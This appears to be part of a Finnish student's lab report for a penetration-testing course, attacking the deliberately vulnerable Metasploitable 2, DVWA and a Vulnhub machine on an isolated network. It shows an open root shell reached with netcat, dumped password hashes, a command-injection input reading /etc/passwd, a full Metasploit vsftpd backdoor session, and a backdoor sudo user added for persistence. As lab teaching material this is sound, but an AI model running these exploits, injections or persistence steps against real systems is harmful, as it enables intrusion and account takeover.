3306/tcp | mysql | MySQL 5.0.51a-3ubuntu5 | SQL palvelu. Ei tulisi olla auki verkkoon, koska hallinta voidaan tarvittaessa suorittaa ssh:n kautta. MySQL versio on myöskin vanha | https://ubuntu.com/security/notices/USN-671-1 MySQL versio joka käytössä, on haavoittuva palvelunestohyökkäyksille, sekä datan manipuloinnille vaikkei kirjautuneella käyttäjällä olisikaan tarpeeksi oikeuksia.  
5432/tcp | postgresql | PostgreSQL DB 8.3.0 - 8.3.7 | SQL palvelu. Ei tulisi olla auki verkkoon, koska hallinta voidaan tarvittaessa suorittaa ssh:n kautta | Versiossa 8.3.x-8.3.11 haavoittuvuus, joka antaa hyökkääjän syöttää SQL komentoja https://www.cvedetails.com/cve/CVE-2012-0868/.
5900/tcp | vnc | VNC (protocol 3.3) | 
6000/tcp | X11 | (access denied) |
6667/tcp | irc | UnrealIRCd | Internet Relay Chat ja UnrealIRCd sen yksi tunnetuimmista demoneista. | Voidaan mahdollisesti käyttää tiedostojen siirtoon onnistuneen hyökkäyksen jälkeen.  
8009/tcp | ajp13 | Apache Jserv (Protocol v1.3) | Apache Tomcatiin liittyvä binäärimuodossa dataa lähettävä protokolla (https://tomcat.apache.org/connectors-doc-archive/jk2/common/AJPv13.html) | 
8180/tcp | http | Apache Tomcat/Coyote JSP engine 1.1 | Apache Tomcat http-portissa. | **Vieraile 192.168.56.8:8081** curl -l 192.168.56.8:8081, josko headereistä saisi versionumeron.  
   
## i) Ovi jäi auki. Mitä löytyy portista 1524/tcp? Kokeile netcattilla 'nc'.  
```
┌──(pajazzo㉿kali)-[~]
└─$ nc 192.168.56.8 1524
root@metasploitable:/# whoami
root
```
Root-shelli jäänyt vahingossa auki porttiin 1524 eli tuota kautta saa periaatteessa vapaat kädet koneelle.  
  
## j) Darn Low Security. Etsi Metasploitable 2 weppipalvelin. Tee paikallinen tunnus DVWA Damn Vulnerable Web App -ohjelmaan. Aseta vasemman reunan palkista "DVWA Security" Low.
 
DVWA sovellus löytyy Metasploitable 2 palvelimelta osoitteesta:   
http://192.168.56.8/dvwa
Tämän löysin ihan testaamalla.  
Sovelluksessa ei näyttäisi olevan mahdollisuutta luoda käyttäjiä ainakaan selain käyttöliittymän kautta, joten tehdään tunnus suoraan tietokantaan. Aiemmin sain jo muodostettua ssh-yhteyden demon käyttäjälläni Metasploitable 2 koneelle, joten otetaan ssh-yhteys uudelleen käyttöön. 
Tässä jouduin vähän hakemaan tietoa Internetistä eli DVWL -asennusohje sivulta https://opensourcelibs.com/lib/dvwa, jossa mainitaan sovelluksen config tiedoston sijainti, joka pitää sisällään sovelluksen tietokanta -konfiguraation.  
```
demon@metasploitable:~$ sudo cat /var/www/dvwa/config/config.inc.php 
[sudo] password for demon: 
<?php

# If you are having problems connecting to the MySQL database and all of the variables below are correct
# try changing the 'db_server' variable from localhost to 127.0.0.1. Fixes a problem due to sockets.
# Thanks to digininja for the fix.

# Database management system to use

$DBMS = 'MySQL';
#$DBMS = 'PGSQL';

# Database variables

$_DVWA = array();
$_DVWA[ 'db_server' ] = 'localhost';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = '';

# Only needed for PGSQL
$_DVWA[ 'db_port' ] = '5432'; 

?>
```
Tästä selvisi siis, että sovellus käyttää mySQL tietokantaa, tietokannan nimi on dvwa, tunnus root ja ei salasanaa.  
Jatkoin ottamalla yhteyden tietokantaan:  
```
demon@metasploitable:~$ mysql -u root -D dvwa     ## -u käyttäjä -D tietokanta
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 18
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show tables;                                                                                               
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      | 
| users          | 
+----------------+
2 rows in set (0.00 sec)

mysql> select * from users;                                                                                       
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
| user_id | first_name | last_name | user    | password                         | avatar                                                |
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
|       1 | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 
|       2 | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | 
|       3 | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 
|       4 | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 
|       5 | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
6 rows in set (0.01 sec)
```
Mielenkiintoista. Kahdella käyttäjällä näkyisi olevan täysin sama salasana ja itseasiassa tiedänkin sen, koska adminin salasana mainitaan DVWAn asennussivulla. Se on 'password', joka näyttäisi tässä olevan kryptattuna. Hakukoneella selviää, että tuo on MD5 salauksen hash kyseiselle salasanalle (https://md5hashing.net/hash/md5/5f4dcc3b5aa765d61d8327deb882cf99). Loin oman käyttäjän tietokantaan ja laitoin sille saman salasanan, koska en jaksanut alkaa kryptaamaan uutta:  
```
mysql> INSERT INTO users (user_id, first_name, last_name, user, password) VALUES (6, 'M', 'P', 'demon', '5f4dcc3b5aa765d61d8327deb882cf99');
Query OK, 1 row affected (0.00 sec)

mysql> select * from users;                                                                                        
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
| user_id | first_name | last_name | user    | password                         | avatar                                                |
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
|       1 | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 
|       2 | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | 
|       3 | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 
|       4 | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 
|       5 | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 
|       6 | M          | P         | demon   | 5f4dcc3b5aa765d61d8327deb882cf99 | NULL                                                  | 
+---------+------------+-----------+---------+----------------------------------+-------------------------------------------------------+
7 rows in set (0.00 sec)
```
Ja testaamaan kirjautumista, joka onnistui mainiosti:  


## k) Execute! Ratkaise DVWA "Command Excution". ("DVWA Security" on paras olla "Low")
Syöte:
8.8.8.8; cat /etc/passwd

Tämä palautti minulle koko Metasploitable 2 koneen käyttäjälistan ja ryhmät. Yritin myös saada /etc/shadow tiedoston sisältöä, mutta ilmeisesti sudo oikeuksia sovelluksella ei ole, koska sudo cat /etc/shadow ei palauttanut mitään.  
En oikein tiedä, mikä tässä tehtävässä katsotaan "Ratkaistuksi".  
  
## l) Asenna jokin kone Vulnhub:ista samaan Internetistä eristettyyn verkkoon Kalin kanssa.
  
Valitsin koneeksi https://www.vulnhub.com/entry/corrosion-1,730/, joka kuvauksen mukaan pitäisi olla helppo kone aloittelijoille.  
Asensin sen VirtualBoxiin ladatulla .ova tiedostolla Import Appliance valikon kautta. 
Asennuksen jälkeen liitin sen koneen Settings > Network valikosta Host-Only adapteriin, jossa myös Kali Linuxini on.  

  
  
## m) Skannaa Vulnhubista hakemasi kone, ja analysoi tulokset.

Valitsin skannaukseksi versioskannauksen (-sV). Tätä ennen tein paikalliseen verkkooni ping sweeping jonka tuloksista sain IP-osoitteen: 172.28.128.7.  

```
msf6 > db_nmap -sV 172.28.128.7
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-09 06:53 EDT
[*] Nmap: 'mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers'
[*] Nmap: Nmap scan report for 172.28.128.7
[*] Nmap: Host is up (0.00014s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     172.28.128.7
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
[*] Nmap: MAC Address: 08:00:27:06:77:D4 (Oracle VirtualBox virtual NIC)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds
```

998 suljettua porttia ja 2 avointa.  
Portti | Palvelu | Versio | Selitys
---|---|---|---
22 | ssh | 172.28.128.7 | SSH-palvelu, mutta tällä skannauksella ei versiosta selvinnyt muuta kuin IP-osoite.
80 | http | Apache httpd 2.4.46 ((Ubuntu)) | Apache 2 demoni käynnissä, joten todennäköisesti jokin verkkosivu löytyy. Vanha versio uusin Apache/2.4.53.

Kohdekoneella on Linux Ubuntu käyttöjärjestelmä.

Testasin seuraavaksi katsoa, mitä löytyy selaimella osoitteesta 172.28.128.7 ja sieltä löytyy muokkaamaton Apachen default sivu. 


## n) Vapaaehtoinen: Murtaudu jollain uudella tavalla Metasploitable 2:n.  

Aloitin tunkeutumisen avaamalla komentoriviltä Kali Linuxin mukana tulleen toolkitin msfconsole josta löytyy useita valmiita exploitteja.  
Tämän jälkeen etsin msfconsolesta haluamani exploitin, käynnistin sen, asetin RHOSTiksi kohde koneen IP-osoitteen 192.168.56.8.  
Varmistin vielä, että tiedot päivittyivät oikein, minkä jälkeen käynnistyn exploitin.
Ohessa komentorivi-tapahtumat:

```
┌──(pajazzo㉿kali)-[~]
└─$ msfconsole

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor                                                                                

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasp
                                     loit-framework/wiki/Using-Metasploit
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 196.168.56.8
RHOST => 192.168.56.8
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  192.168.56.8     yes       The target host(s), see https://github.com/rapid7/metasp
                                     loit-framework/wiki/Using-Metasploit
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  196.168.56.8     yes       The target host(s), see https://github.com/rapid7/metas
                                      ploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.8:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.8:21 - USER: 331 Please specify the password.
[+] 192.168.56.8:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.8:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.5:33283 -> 192.168.56.8:6200 ) at 2022-04-09 16:45:57 +0300


```  
  
Sain siis yhteyden Metasploitable koneelle. Yhteys on kuitenkin aika huono. En tiedä sanaa tämän kaltaiselle konsolille, mutta se tarjoaa vähän heikosti ominaisuuksia. Tahdoin parempaa, joten loin kohdekoneelle uuden käyttäjän, jonka lisäsin sudo ryhmään:
```
whoami
root
adduser demon 
Adding user `demon' ...
Adding new group `demon' (1003) ...
Adding new user `demon' (1003) with group `demon' ...
Creating home directory `/home/demon' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 123456
Retype new UNIX password: 123456
passwd: password updated successfully
Changing the user information for demon
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []:
y
Is the information correct? [y/N] y
sh: line 10: y: command not found
sudo adduser demon sudo
Adding user `demon' to group `sudo' ...
Adding user demon to group sudo
Done. 
```
  
Minulla pitäisi siis olla sudo oikeuksilla toimiva käyttäjä kohdekoneella. 
Testasin ssh -yhteyttä:  
```
┌──(pajazzo㉿kali)-[~]
└─$ ssh demon@192.168.56.8                                      
Unable to negotiate with 192.168.56.8 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```
En ole ssh-yhteyksien ongelmatilanne ekspertti, mutta ainakin ssh-rsa viittaa käytettyyn salaukseen. Löysin avukseni sivuston: https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/ jossa huomautettiin, että kyseinen ongelma viittaa vanhan käyttöjärjestelmän käyttämään vanhempaan salaukseen ja neuvottiin oikea komento tähän ongelmaan:
```
┌──(pajazzo㉿kali)-[~]
└─$ ssh -oHostKeyAlgorithms=+ssh-dss demon@192.168.56.8   ### Rivillä tarjotaan vaihtoehtoinen salausavaimen algoritmi, eli tässä tapauksessa dss
demon@192.168.56.8's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
```

Yhteys onnistui. Sudo oikeuksien testaus:  
```
demon@metasploitable:~$ sudo touch /tmp/pwned22
[sudo] password for demon: 
demon is not in the sudoers file.  This incident will be reported.
demon@metasploitable:~$ exit
```
Tässä vaiheessa hämmennyin hetkeksi. Palasin takaisin msfconsolen istuntooni ja testasin seuraavaa:
```
adduser demon sudo
The user `demon' is already a member of `sudo'.   ## Lisää hämmennystä

###########################################
#### Pieni vilkaisu sudoers kansioon: #####
###########################################

cat /etc/sudoers
# /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the man page for details on how to write a sudoers file.
#

Defaults        env_reset

# Uncomment to allow members of group sudo to not need a password
# %sudo ALL=NOPASSWD: ALL

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL) ALL

#### Seuraava rivi kiinnitti huomioni. Koneella on vielä erillinen admin ryhmä ####

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

###############################################
#### Lisäsin käyttäjä demon admin -ryhmään ####
###############################################

adduser demon admin
Adding user `demon' to group `admin' ...
Adding user demon to group admin
Done.
```

Uusi yritys ssh-yhteyden kanssa:
```
┌──(pajazzo㉿kali)-[~]
└─$ ssh -oHostKeyAlrithms=+ssh-dss demon@192.168.56.8                                     
demon@192.168.56.8's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

demon@metasploitable:~$ sudo touch /tmp/pwned22  
[sudo] password for demon: 
demon@metasploitable:~$ ls /tmp/
4550.jsvc_up  pwned22
```  
  
Korotetut oikeudet ja ssh yhteys luotu. Jäi hieman hämmentämään tuo admin ryhmän olemassaolo, joten testailin luoda pari käyttäjää eri oikeuskombinaatioilla. Lopputulos ja huomiot:  
Käyttäjä | Ryhmät | Kommentti
---|---|---
demon | admin sudo | Sudo-oikeudet
demon2 | admin | Sudo-oikeudet
demon3 | sudo | Ei sudo-oikeuksia

## o) Vapaaehtoinen: Murtaudu Vulnhubista lataamaasi kuvaan.

## p) Vapaaehtoinen: Jos viime kerran SQL injektiot jäivät mysteeriksi, voit tehdä ne nyt suuremmalla ymmärykselllä

## q) Vapaaehtoinen: Jatka HackTheBoxin parissa.

## r) Vapaaehtoinen: Tee lisää tehtäviä DVWA:sta.

## s) Vapaaehtoinen: Tee lisää tehtäviä WebGoatista.

## t) Vapaaehtoinen: Tee lisää tehtäviä Over the Wiresta.

Vinkit

  * Muista merkitä kurssi ja kaikki muutkin lähteet - mikä tieto on mistäkin.
  * O'Reilly Learning (ent. Safari) on HH opiskelijoille ilmainen HH kirjaston
    kautta.
  * Jos joudut katsomaan suoraan esimerkki/malliratkaisun, merkitse se
    raporttiin.
  * "Host-only networking" sopii maalikoneille VirtualBoxissa. Esimerkkejä
    löytyy hakukoneista, vaikkapa Googlesta "karvinen" "host-only networking"
    tai sama DuckDuckGo:sta.
  * 'script -fa teronloki123' nauhoittaa terminaalia
  * pitkät tulosteet ja lokit kannattaa laittaa linkin taakse tai ainakin
    artikkelin loppuun, jotta raportti säilyy helppolukuisena.
  * Tallenna nmap-komentojen tulosteet 'sudo nmap localhost -oA teronmap123'
  * Internet-yhteyttä voi kokeilla vaikkapa pingaamalla Googlen nimipalvelinta
    'ping 8.8.8.8'.
  * Jos haluat varmistua Metasploitable2 osoitteesta, tai testata, että voit
    pingata Kali-Metasploitable kumpaankin suuntaan: kirjaudu Metasploitable 2
    (msfadmin:msfadmin) ja katso 'ip a', 'ifconfig' sekä 'ping 10.0.0.1' Kalin
    IP-osoitteella.
  * Kaikki skannaustehtävät edellyttävät tulosten kirjallista selittämistä.
    Pelkkä nmap:n tuloste ei riitä.
  * Nmap skannaa oletuksena 1000 tavallisinta porttia, 'sudo nmap localhost'.
    -vv tai v klikkailemalla ajon aikana saa lisää tietoa. Useimmat napit 's'
    kertovat statuksen, eli paljonko on skannattu.
  * Perusteellinen skannaus, esim 'sudo nmap -sV localhost' ja ehkä myös
    hitaampi 'sudo nmap -A -p- localhost'.
  * Voit aloittaa tunkeutumisen vsftpd-palvelusta. Siihen on valmis hyökkäys
    Metasploitissa: msfconsole, search vsftpd, use 0, info, set RHOST
    127.0.0.1, options, varmista huolellisesti että kohteena on harjoitusmaali,
    irroita tarvittaessa koneet Internetistä, exploit. Ja sitten (ehkä)
    nauttimaan: id, whoami, pwd, cat /etc/shadow...
  * Jos haluat, voit kokeilla parantaa pääsyä: käyttäjä->root, shell ilman
    tty:tä -> ssh tai shell -> meterpreter...
  * Komentoinjektio: ystäväsi ovat komentojen erottimet ';', '||', '&&' sekä
    pipe '|'. Ja tietysti vanhat kunnon lainausmerkit.
  * Jokin tehtävä voi olla vaikea. Tee ja raportoi silloin kaikki mitä osaat.
    Listaa lähteet, joista hait ohjeita. Onko jotain vielä kokeiltavana? Mitä
    haasteita on vielä ratkaisun tiellä? Mitä virheimoituksia tai vastaavia
    tulee? Voit myös katsoa wepistä esimerkkiratkaisun - muista viitata
    lähteeseen ja merkitä, missä kohdassa katsoit ratkaisua. Ja katsotaan
    yhdessä tunnilla loput.
  * Webgoat: A1 Injection (intro)
      □ Millaiset lainausmerkit SQL:ssä olikaan?
      □ Jos nostat kaikkien palkkaa, oletko enää rikkain?
      □ Nämä nimet ("A1 Injection") ovat samat kuin OWASP 10:ssä.
      □ Jos SQL kaipaa virkistystä, SQLZoo harjoitukset ja Wikipedia: SQL
        syntax voivat auttaa.

